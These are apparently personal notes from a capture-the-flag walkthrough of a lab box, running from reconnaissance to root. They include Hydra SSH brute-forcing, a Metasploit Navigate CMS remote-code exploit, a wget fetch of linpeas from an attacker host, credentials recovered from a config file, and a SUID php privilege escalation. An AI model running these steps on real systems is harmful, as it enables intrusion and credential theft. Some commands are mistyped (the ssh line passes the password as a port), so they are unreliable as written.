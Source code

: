 **nmap -A -p- 192.168.86.199**
   '''
   PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    | ssh-hostkey:
    |   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA)
    |   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA)
    |_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519)
    53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux) 
    | dns-nsid:
    |_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
    80/tcp open  http    nginx 1.14.2 ****
    |_http-title: Welcome to nginx!
    |_http-server-header: nginx/1.14.2
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    '''
---
**ffuf - No good**
---
**HTML**
    'http://<ip>
    + <body>
    + <!-- Webmaster: alek@blackpearl.tcm -->
    + <html>'
---
**Gobuster**
`gobuster dir -u http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --wildcard 2>/dev/null | grep "Status: 200"`
/secret               (Status: 200) [Size: 209]
    'DL file:
        OMG you got r00t !
        Just kidding... search somewhere else. Directory busting won't give anything.
       <This message is here so that you don't waste more time directory busting this particular website.>'
---
**Hydra**
`hydra -hydra -l alek -P /usr/share/wordlists/rockyou.txt ssh://192.168.86.199`
---
**DNSRECON**
`dnsrecon -r 127.0.0.0/24 -n 192.168.86.199 -d extra` (-d is domain && any domain is required) #**Virtual Host Routing**
             '''
        [*] Performing Reverse Lookup from 127.0.0.0 to 127.0.0.255
        [+] PTR blackpearl.tcm 127.0.0.1
        [+] 1 Records Found'
             '''
   
1. **sudo vi /etc/hosts**
        <ip>    blackpearl.tcm
        http://blackpearl.tcm
            Linux blackpearl 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 
        fuff once again:
            /nagivate - login.php ( Navigate CMS v2.8, © 2021)
                    **Always google new environment**
                https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/  
        `msfconsole use exploit/multi/http/navigate_cms_rce`
        `set domain - blackpearl.tcm : run`
                
 2. **meterpreter > shell:**
        'python -c 'import pty;pty.spawn("/bin/sh")''
            - pwd: ~/blackpearl.tcm/navigate 
            - ls -alth #This directory has higher permissions
        'wget http://<ip>/linpeas.sh linpeas.sh' # upload privecs
   
 3. **linpeas.sh:**
        + /var/www/blackpearl.tcm/navigate/cfg/globals.php:define('PDO_PASSWORD', "H4x0r");
        + /var/www/blackpearl.tcm/navigate/cfg/globals.php:define('PDO_USERNAME', "alek");
        + 'show databases; show tables; use navigate'
                'select * from nv_users; ::
                 alek && PW: 26f1e0e7b718d27e0428e1b3b4b3f677 #wasted time to break hash'
   
 4. **ssh alek@<ip> -p H4x0r**:: **Success**
            `find / -perm /6000 2</dev/null` ![GTFObins](https://gtfobins.github.io/gtfobins/php/#suid)
                #/php - GTFObins - click php -> SUID
            `/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"`  # **Success**
   '''
                        $ whoami::
                          root
                        $cd root/ && cat flag.txt ::
                            'Good job on this one. Finding the domain name may have been a little guessy, but the goal of this box \ 
                             is mainly to teach about Virtual Host Routing which is used in a lot of CTF.'
   '''

                    
